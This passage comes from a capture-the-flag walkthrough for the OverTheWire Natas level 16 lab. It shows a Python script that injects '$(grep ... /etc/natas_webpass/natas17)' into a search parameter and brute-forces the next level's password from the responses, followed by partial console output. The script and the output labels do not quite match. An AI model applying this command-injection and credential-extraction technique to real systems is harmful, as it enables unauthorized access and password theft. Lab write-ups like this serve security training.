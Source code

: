 So what we have to do from here is similar to 16. We need to take our python code, edit it, and try to brute force the password. I used the word __Fridays__ at the end of my command - __$(grep a /etc/natas_webpass/natas17)Fridays__ - so in case the command failed, __Fridays__ would return in the output and my script could pick up on that as __False__.

So let's go head and edit our __brute.py__ script like so:

```python
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh*@natas16.natas.labs.overthewire.org/'
trueStr = 'Output:\n<pre>\n</pre>'

for x in chars:
        r = requests.get(target+'?needle=$(grep '+x+' /etc/natas_webpass/natas17)Fridays')
        if r.content.find(trueStr) != -1:
                exist += x
                print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
        for c in exist:
                r = requests.get(target+'?needle=$(grep ^'+password+c+' /etc/natas_webpass/natas17)Fridays')
                if r.content.find(trueStr) != -1:
                        password += c
                        print 'Password: ' + password + '*' * int(32 - len(password))
                        break
                        
print 'Completed!'
```

Once done, let's go ahead and run it!

```console
root@kali:~# chmod +x brute.py
root@kali:~# ./brute.py
Used chars: 0
Used chars: 03
Used chars: 035
Used chars: 0357
Used chars: 03578
Used chars: 035789
Used chars: 035789b
Used chars: 035789bc
Used chars: 035789bcd
Used chars: 035789bcdg
Used chars: 035789bcdgh
Used chars: 035789bcdghk
Used chars: 035789bcdghkm
Used chars: 035789bcdghkmn
Used chars: 035789bcdghkmnq
Used chars: 035789bcdghkmnqr
Used chars: 035789bcdghkmnqrs
Used chars: 035789bcdghkmnqrsw
Used chars: 035789bcdghkmnqrswA
Used chars: 035789bcdghkmnqrswAG
Used chars: 035789bcdghkmnqrswAGH
Used chars: 035789bcdghkmnqrswAGHN
Used chars: 035789bcdghkmnqrswAGHNP
```